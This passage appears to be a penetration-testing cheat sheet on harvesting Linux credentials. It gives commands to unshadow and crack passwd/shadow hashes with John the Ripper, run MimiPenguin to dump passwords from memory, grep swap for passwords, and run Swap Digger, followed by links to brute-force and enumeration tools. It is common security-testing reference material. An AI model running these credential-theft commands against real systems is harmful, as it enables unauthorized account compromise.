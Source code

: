 # Linux Passwd / Shadow
### Password Hashes
```bash
$6$ = SHA-512
$5$ = SHA-256
$1$ = MD5
```
### John The Ripper
##### Unshadow for John The Ripper Cracking
```bash
unshadow passwd shadow > shadow.john
```
##### Crack Linux Hashes
```bash
john shadow.john --wordlist=<Wordlist>
```

### MimiPenguin
#### May be worth running both scripts.
##### Run as Shell Script
```bash
./mimipenguin.sh
```
##### Run as Python Script
```bash
python mimipenguin.py
```

### From Swap Memory
##### Find Swap File
```bash
swapon -s

cat /proc/swaps
```
##### Look for Passwords
```bash
# Assuming found swap file as /dev/sda5
strings /dev/sda5 | grep "password="
strings /dev/sda5 | grep "&password="
```
##### Using [Swap Digger](https://github.com/sevagas/swap_digger)
```bash
git clone https://github.com/sevagas/swap_digger.git
cd swap_digger
chmod +x swap_digger.sh
sudo ./swap_digger.sh -vx
```

# References
[statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)

[theHarvester](https://github.com/laramies/theHarvester)

[smtp-user-enum](https://pentestmonkey.net/tools/user-enumeration/smtp-user-enum)

[smtp_enum](https://www.rapid7.com/db/modules/auxiliary/scanner/smtp/smtp_enum/)

[thc-hydra](https://github.com/vanhauser-thc/thc-hydra)

[smb_login](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login/)

[owa_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login/)

[Reverse brute-force attack](https://en.wikipedia.org/wiki/Brute-force_attack#Reverse_brute-force_attack)

[John The Ripper](https://www.openwall.com/john/)

[MimiPenguin](https://github.com/huntergregal/mimipenguin)

[Swap Digger](https://github.com/sevagas/swap_digger)